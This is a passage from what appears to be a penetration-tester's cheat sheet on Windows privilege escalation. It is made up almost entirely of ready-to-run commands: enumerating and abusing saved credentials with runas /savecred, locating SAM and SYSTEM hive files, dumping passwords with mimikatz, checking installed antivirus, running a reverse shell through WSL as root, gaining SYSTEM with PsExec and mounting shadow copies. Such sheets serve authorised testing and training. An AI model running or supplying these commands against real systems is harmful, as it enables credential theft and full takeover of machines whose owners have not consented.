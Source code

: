 ##### Credential Manager
```
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Abuse with runas: `runas /savecred /user:Administrator "cmd.exe /k whoami"`
##### Weak file/folder permissions
folder
```
accesschk.exe -uwdqs Users c:\; accesschk.exe -uwdqs "Authenticated Users" c:\
```
files
```
accesschk.exe -uwqs Users c:\*.*; accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

##### Can we access any of these files?
```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
##### Passwords (mimikatz)
```powershell
privilege::debug
```

```powershell
token::elevate
```

```powershell
lsadump::sam
```
(lsadump::lsa /patch ??)
```powershell
vault::cred /patch
```
##### List AV-Products
```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName
```
##### Drivers	
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"
```
https://www.loldrivers.io/
##### WSL
`wsl whoami`. If wsl is installed, try to change the distros default user, e.g., `./ubuntun1604.exe config --default-user root`. Then exploit with `wsl <reverseshell>`. WSL Filesystem can be found under `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\` See [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#hivenightmare)
### From local Admin to NT SYSTEM
`PsExec.exe -i -s cmd.exe`
##### Shadow Copies
```powershell
vssadmin list shadows #Needs local Admin
```
Alternative: `diskshadow list shadows all`
```powershell
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```